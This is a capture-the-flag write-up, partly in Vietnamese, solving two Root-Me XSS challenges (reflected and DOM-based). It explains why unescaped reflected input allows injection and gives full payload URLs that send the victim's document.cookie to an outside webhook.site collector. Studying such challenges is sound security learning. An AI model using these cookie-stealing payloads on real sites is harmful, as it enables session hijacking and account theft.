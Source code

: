 ### Steps to reproduce

    - Visit http://challenge01.root-me.org/web-client/ch26/?p=exp' onmousemove='document.location="https://webhook.site/c8a95cae-3c65-4ff0-8d90-e388c8148607?cmd=".concat(document.cookie)
    - Exp' is the reflected xss, we want the document cookie, we encode the paylod
    - Click on Report to the administrator
    - Đợi cho bot tải hình ảnh và do đó là kẻ đánh cắp cookie
    - Sao chép cờ trong cookie

Nếu user truy cập:
```
http://example.com/?p=about
```
→ Server trả về:
```
<a href='?p=about'>Link</a>
```
✅ Bình thường.  
Nhưng attacker gửi:
```
http://example.com/?p=about' onmouseover='alert(1)
```
→ Server trả về:
```
<a href='?p=about' onmouseover='alert(1)'>Link</a>
```
➡️ Lúc này, HTML bị chèn thêm attribute `onmouseover="alert(1)"`.  
Nếu người dùng di chuột vào link → JavaScript chạy → Reflected XSS.  
Nguyên nhân chính:

Input được phản chiếu trực tiếp ra HTML.

Không escape đặc biệt (', ", <, >) trước khi in ra.

Browser hiểu nội dung đó như một phần HTML/JavaScript, không phải plain text.  
`document.location="..."` Dùng để thay đổi URL hiện tại của trình duyệt → tự động điều hướng (redirect).  
`"https://webhook.site/... ?cmd=".concat(document.cookie)`  
`"https://webhook.site/... ?cmd="` → là chuỗi cố định.

`document.cookie` → chứa cookie của người dùng.

`.concat(document.cookie)` → nối cookie vào chuỗi trên.

`.concat()` là hàm của String dùng để nối chuỗi.

## [XSS DOM Based - Introduction](https://www.root-me.org/en/Challenges/Web-Client/XSS-DOM-Based-Introduction)

### Steps to reproduce

    - Chall này có một thanh input và nó như một trò chơi nho nhỏ đoán số được sinh ra ngẫu nhiên và ghi lại input vào đoạn mã script
    - Visit http://challenge01.root-me.org/web-client/ch32/contact.php
    - test: http://challenge01.root-me.org/web-client/ch32/index.php?number=1'; alert(1);
    - client script by suffix '; and prefix // respectively 1';alert(1);//';
    - As a payload insert: http://challenge01.root-me.org/web-client/ch32/index.php?number=1';document.location="https://webhook.site/c8a95cae-3c65-4ff0-8d90-e388c8148607?cmd=".concat(document.cookie);//
    - Click on Submit
    - Wait for the bot to click on the link
    - Copy the flag in the captured request cookie
